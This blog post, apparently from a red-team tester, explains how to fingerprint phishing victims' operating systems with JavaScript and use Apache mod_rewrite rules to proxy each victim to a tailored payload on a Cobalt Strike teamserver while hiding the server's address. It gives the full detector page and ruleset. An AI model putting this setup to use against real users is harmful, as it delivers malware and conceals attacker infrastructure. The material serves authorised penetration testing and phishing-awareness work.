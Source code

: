 ```yaml
---
layout: post
title: Operating System Based Redirection with Apache mod_rewrite
summary: Redirect your phishing victims to different payloads or sites based on their operating system.
image: /assets/apache/os-detection-demo.gif
tags: 
- mod_rewrite
- phishing
---
```


At times you may find yourself testing an environment comprised of a fair mix of operating systems. Maybe the marketing department is half Windows and half Mac OS X. In these cases, it may not be feasible to determine users' operating systems via a preliminary phish.

OS detection is nothing new. The goal of this method is to allow us to perform detection and proxying in one place while looking as legitimate as possible to the phish victim. No URL changing, no excessive page reloads and refreshes. This detection method is similar to my [previous post]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/) about redirecting mobile users; however, leveraging JavaScript provides a more reliable method of operating system detection.


![OS Detection Demo](/assets/apache/os-detection-demo.gif)

{:#os-detector-page}

# OS Detector Page

The HTML code below (based on OS detection code from [javascripter.net](http://www.javascripter.net/faq/operatin.htm)) uses JavaScript to detect the user's OS and appends a URL parameter (*os_id*) to the end of the request. If the user's OS doesn't match Windows, Mac OS X, Unix, or Linux, *unknown* will be assigned to the *os_id*.

The HTML only needs to be modified if you are using the parameter *os_id* in one of the payloads or if you opt to add more granular detection, such as by OS version. The HTML file should be hosted on a Cobalt Strike teamserver or other pivoting server, such as a redirector.

```html
<html><head></head>
<body>

<script>
var url_base='http://'+window.location.host;
var OSName="unknown";
var query_string=document.location.search;
var request_path=window.location.pathname.substr(1);
if (navigator.appVersion.indexOf("Win")!=-1) OSName="windows";
if (navigator.appVersion.indexOf("Mac")!=-1) OSName="mac";
if (navigator.appVersion.indexOf("X11")!=-1) OSName="unix";
if (navigator.appVersion.indexOf("Linux")!=-1) OSName="linux";

var os_string='&os_id='+OSName;
if (query_string == '') os_string='?os_id='+OSName;
if (query_string.indexOf("os_id=")!=-1) os_string='';

window.location.replace(url_base+'/'+request_path+query_string+os_string);

</script>

</body></html>
```

{:#mod_rewrite-rules}

# mod_rewrite Rules

The following ruleset should be placed in a *.htaccess* file on your Apache redirector. Replace the *TEAMSERVER-IP* and OS payload placeholders with the IP and paths that correspond to your infrastructure for the campaign. The *OS-DETECTOR* placeholder should be replaced by the path of the above HTML file on your teamserver.

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=mac</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/MAC-OS-X-PAYLOAD</span> <span style="color: tomato">[P]</span><br>

RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=windows</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/WINDOWS-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=unix</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/UNIX-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=linux</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/LINUX-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=unknown</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/UNKNOWN-OS-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/OS-DETECTOR.HTML</span> <span style="color: tomato">[P]</span><br>
</div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'mac':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'MAC-OS-X-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'windows':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'WINDOWS-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'unix':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'UNIX-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'linux':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'LINUX-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'unknown':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'UNKNOWN-OS-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
If none of the above conditions are met, <span style="color: gold">change the entire request</span> <span style="color: orange">to serve 'OS-DETECTOR.HTML' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
</div>


In short, the ruleset checks requests for each of the OS parameters and proxies requests to the the designated payload path. The user's address bar will still read the path to they entered or clicked to get to the OS detector. As it's written, the ruleset redirects any request received to the *.htaccess* file's directory and any subdirectory to the OS detector page. If you would like to selectively redirect to that file, you can add a RewriteCond line above and catch-all RewriteRule line on the last line. See my previous mod_rewrite post about [invalid uri redirection]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite) of for a more specific example.

{:#expanding-capabilities}

# Expanding Capabilities

Since the detection is simply using JavaScript to fingerprint the end-user's host and using mod_rewrite to determine the correct page to serve, one could easily expand the script to serve payloads based upon any number of criteria. For instance, the script above doesn't detect specific versions of operating systems. If that level of granularity is required, consider using the user agent to perform detection. 

An example would be to change the conditional statement in the HTML page from:

```javascript
navigator.appVersion.indexOf("Win")!=-1
```

to

```javascript
navigator.userAgent.indexOf("Windows NT 6.1")!=-1
```

The second conditional line checks for Windows 7 rather than just Windows. User agents can be spoofed or removed, so be it's a good idea to build in a backup detection method if you aren't sure the user agents will be in tact.

{:#summary}

# Summary

Operating system detection enables phishing campaigns to serve payloads based upon maximum impact per host type, rather than broadest applicability. This allows you to tailor not only the infection vector, such as Java vs. HTA, but also the post-exploit toolset, such as Cobalt Strike vs. Metasploit, based upon the likelihood of success. This capability can be extended even further to serve up specific operating system or application versions. 


# Strengthen Your Phishing with Apache mod_rewrite Posts

* [Strengthen Your Phishing with Apache mod_rewrite and Mobile User Redirection]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/)
* [Invalid URI Redirection]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite/)
* Operating System Based Redirection with Apache mod_rewrite
* [Combatting Incident Responders with Apache mod_rewrite]({{site.baseurl}}/2016-04-12-combatting-incident-responders-with-apache-mod_rewrite/)
* [Expire Phishing Links with Apache RewriteMap]({{site.baseurl}}/2016-04-19-expire-phishing-links-with-apache-rewritemap/)


{:#resources}

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)